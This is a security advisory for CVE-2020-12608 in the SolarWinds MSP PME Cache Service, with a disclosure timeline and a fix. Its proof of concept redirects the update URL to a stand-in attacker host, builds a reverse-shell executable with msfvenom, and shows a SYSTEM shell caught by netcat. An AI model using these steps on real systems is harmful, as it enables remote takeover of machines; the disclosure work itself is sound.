 #### SolarWinds MSP PME Cache Service - Insecure File Permissions / Code Execution

**Author**: Jens Regel, Schneider & Wulf EDV-Beratung GmbH & Co. KG

**CVSSv3**: 8.2 [CVSS:3.0/AV:L/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:H]

**CVE**: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-12608

**CWE**: https://cwe.mitre.org/data/definitions/276.html

#### Vulnerable version
SolarWinds MSP PME (Patch Management Engine) before **1.1.15**

#### Timeline
- 2020-04-24 Vulnerability discovered
- 2020-04-27 Send details to SolarWinds PSIRT
- 2020-04-27 SolarWinds confirmed the vulnerability
- 2020-05-05 SolarWinds released PME version 1.1.15
- 2020-05-06 Public disclosure

#### Description

An error with insecure file permissions has occurred in the SolarWinds MSP Cache Service, which is part of the Advanced Monitoring Agent and can lead to code execution. The SolarWinds MSP Cache Service is typically used to get new update definition files and versions for `ThirdPartyPatch.exe` or `SolarWinds MSP Patch Management Engine Setup`. The XML file `CacheService.xml` in `%PROGRAMDATA%\SolarWinds MSP\SolarWinds.MSP.CacheService\config\` is writable by normal users, so that the parameter `SISServerURL` can be changed, which controls the location of the updates. After some analysis, we were able to provide modified XML files (`PMESetup_details.xml` and `ThirdPartyPatch_details.xml`) that point to an executable file with a reverse TCP payload using our controlled `SISServerURL` web server for SolarWinds MSP Cache Service.

#### Proof of Concept (PoC)

As we can see, NTFS change permissions are set to `CacheService.xml` by default. **Any user on the system who is in group users can change the file content. This is especially a big problem on terminal servers or multi-user systems**.

```
PS C:\ProgramData\SolarWinds MSP\SolarWinds.MSP.CacheService\config> icacls .\CacheService.xml
.\CacheService.xml VORDEFINIERT\Benutzer:(I)(M)
                   NT-AUTORITÄT\SYSTEM:(I)(F)
                   VORDEFINIERT\Administratoren:(I)(F)
```

#### 1. Modify CacheService.xml

In the xml file, the parameter `SISServerURL` was adjusted, which now points to a web server controlled by the attacker.

```xml
<?xml version="1.0" encoding="utf-8"?>
<Configuration>
	<CachingEnabled>True</CachingEnabled>
	<ApplianceVersion>1.1.14.2223</ApplianceVersion>
	<CacheLocation>C:\ProgramData\SolarWinds MSP\SolarWinds.MSP.CacheService\cache</CacheLocation>
	<CacheSizeInMB>10240</CacheSizeInMB>
	<SISServerURL>https://evil-attacker.example.org</SISServerURL>
	<LogLevel>5</LogLevel>
	<Proxy></Proxy>
	<ProxyEncrypt>AQAAANCMnd8BFdER(...)</ProxyEncrypt>
	<ProxyCacheService />
	<CacheFilesDeleted></CacheFilesDeleted>
	<CacheDeletedInBytes></CacheDeletedInBytes>
	<HostApplication>RMM</HostApplication>
	<CanBypassProxyCacheService>True</CanBypassProxyCacheService>
	<BypassProxyCacheServiceTimeoutSeconds>1</BypassProxyCacheServiceTimeoutSeconds>
	<ComponentUpdateMinutes>300</ComponentUpdateMinutes>
	<ComponentUpdateDelaySeconds>1</ComponentUpdateDelaySeconds>
</Configuration>
```

#### 2. Payload creation

Generate an executable file, for example using `msfvenom`, that establishes a reverse tcp connection to the attacker and store it on the web server.

`msfvenom -p windows/x64/shell_reverse_tcp lhost=x.x.x.x lport=4444 -f exe > /tmp/solarwinds-shell.exe`

#### 3. Prepare web server

Place the modified xml files (PMESetup_details.xml or ThirdPartyPatch_details.xml) on the web server in the path `/ComponentData/RMM/1/`, calculate MD5, SHA1 and SHA256 checksums of the executable, set correct values for `SizeInBytes` and increase the version.

Example of `PMESetup_details.xml`

```xml
<ComponentDetails>
<Name>Patch Management Engine</Name>
<Description>Patch Management Engine</Description>
<MD5Checksum>7a4a78b105a1d750bc5dfe1151fb70e1</MD5Checksum>
<SHA1Checksum>3d9ed6bd44b5cf70a3fed8f511d9bc9273a1feac</SHA1Checksum>
<SHA256Checksum>
80579df2533d54fe9cbc87aed80884f6a97e1ccdd0443ce2bcb815ef59ed3d65
</SHA256Checksum>
<SizeInBytes>7168</SizeInBytes>
<DownloadURL>/ComponentData/RMM/1/solarwinds-shell.exe</DownloadURL>
<FileName>solarwinds-shell.exe</FileName>
<Architecture>x86,x64</Architecture>
<Locale>all</Locale>
<Version>1.1.14.2224</Version>
</ComponentDetails>
```

Example of `ThirdPartyPatch_details.xml`

```xml
<ComponentDetails xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
<Name>Third Party Patch</Name>
<Description>
Third Party Patch application for Patch Management Engine RMM v 1 and later
</Description>
<MD5Checksum>7a4a78b105a1d750bc5dfe1151fb70e1</MD5Checksum>
<SHA1Checksum>3d9ed6bd44b5cf70a3fed8f511d9bc9273a1feac</SHA1Checksum>
<SHA256Checksum>
80579df2533d54fe9cbc87aed80884f6a97e1ccdd0443ce2bcb815ef59ed3d65
</SHA256Checksum>
<SizeInBytes>7168</SizeInBytes>
<DownloadURL>/ComponentData/RMM/1/solarwinds-shell.exe</DownloadURL>
<FileName>solarwinds-shell.exe</FileName>
<Architecture>x86,x64</Architecture>
<Locale>all</Locale>
<Version>1.2.1.95</Version>
</ComponentDetails>
```

#### 4. Malicious executable download

After restarting the system or reloading the CacheService.xml, the service connects to the web server controlled by the attacker and downloads the executable file. This is then stored in the path `%PROGRAMDATA%\SolarWinds MSP\SolarWinds.MSP.CacheService\cache\` and `%PROGRAMDATA%\SolarWinds MSP\PME\archives\`.

```
[24/Apr/2020:10:57:01 +0200] "HEAD /ComponentData/RMM/1/solarwinds-shell.exe HTTP/1.1" 200 5307 "-" "-"
[24/Apr/2020:10:57:01 +0200] "GET /ComponentData/RMM/1/solarwinds-shell.exe HTTP/1.1" 200 7585 "-" "-"
```

#### 5. Getting shell

After a certain time the executable file is executed by `SolarWinds MSP RPC Server` service and establishes a connection with the rights of the system user to the attacker.

```
[~]: nc -nlvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [x.x.x.x] port 4444 [tcp/*] accepted (family 2, sport 49980)
Microsoft Windows [Version 10.0.18363.778]
(c) 2019 Microsoft Corporation. Alle Rechte vorbehalten.

C:\WINDOWS\system32>whoami
whoami
nt-authority\system

C:\WINDOWS\system32>
```

#### Fix
There is a new PME version 1.1.15 which comes with auto-update
- https://success.solarwindsmsp.com/forum-post/X0D51T00007TMk6jSAD/
